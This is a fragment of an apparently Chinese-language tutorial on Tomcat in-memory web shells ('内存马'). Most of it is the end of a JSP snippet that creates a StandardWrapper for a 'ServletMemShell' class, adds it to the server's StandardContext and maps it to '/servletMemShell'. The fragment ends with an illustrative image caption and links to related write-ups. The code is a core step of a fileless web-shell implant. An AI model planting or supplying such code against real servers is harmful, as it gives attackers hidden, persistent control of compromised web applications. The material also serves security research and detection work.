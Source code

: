 ```jsp
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    //自定义StandardWrapper注册进StandardContext
    ServletMemShell servletMemShell = new ServletMemShell();
    StandardWrapper standardWrapper = (StandardWrapper) standardContext.createWrapper();
    standardWrapper.setName("servletMemShell");
    standardWrapper.setServletClass(servletMemShell.getClass().getName());
    standardWrapper.setServlet(servletMemShell);
    standardContext.addChild(standardWrapper);
    standardContext.addServletMappingDecoded("/servletMemShell", "servletMemShell");

%>

</body>
</html>

```

![servlet JSP内存马](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraservlet%20JSP%E5%86%85%E5%AD%98%E9%A9%AC.gif)





http://wjlshare.com/archives/1541

https://halfblue.github.io/2020/04/24/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E8%87%AA%E9%97%AD%E4%B9%8B%E6%97%85/